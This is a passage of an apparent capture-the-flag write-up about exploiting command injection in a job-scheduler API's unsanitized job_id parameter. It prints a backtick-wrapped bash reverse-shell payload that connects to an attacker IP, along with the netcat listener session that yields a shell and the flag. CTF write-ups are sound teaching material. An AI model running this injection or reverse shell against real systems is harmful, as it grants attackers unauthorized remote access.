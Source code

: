 
The `run_command` calls `execute` which splits our command into space-separated list, and calls `run()` which is from the `subprocess` library. This leads to the command `/opt/pbs/bin/qstat -xf -F json <job_id>` being executed. `job_id` is supplied by us as a string, and is not sanitized or validated. Thus we have to find a way to inject a command which gives us a reverse shell.

To get a reverse shell we want to inject the following command: `/bin/bash -c "sh -i >& /dev/tcp/<attacker_ip>/9001 0>&1"`. Using `;`, `&&`, `||`, or `$(<command>)` to chain our command does not work because of how it is parsed by the backend. However, backticks come to the rescue. In bash, surrounding a command by backticks (useful to *nest* commands) substitutes the command with its output, which means that it gets executed before any potential errors in the actual command! If we set the `job_id` to
```
job_id=`/bin/bash -c "sh -i >& /dev/tcp/10.128.1.41/9001 0>&1"`
```
the command to be executed becomes
```
/opt/pbs/bin/qstat -xf -F json `/bin/bash -c "sh -i >& /dev/tcp/10.128.1.41/9001 0>&1"`
```
which tries to substitute our reverse shell command with its output before executing, giving us a reverse shell as user `f_omm_app`. With shell as this user we can run the `user` file to get the flag.
```
$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [<attacker_ip>] from (UNKNOWN) [10.128.2.126] 59480
sh: 0: can't access tty; job control turned off
$ id
uid=1002(f_omm_app) gid=1001(hpc_users_rd) groups=1001(hpc_users_rd)
$ /home/f_omm_app/user
EPT{Y0U_JU57_P0PP3D_7H3_4P1!}
```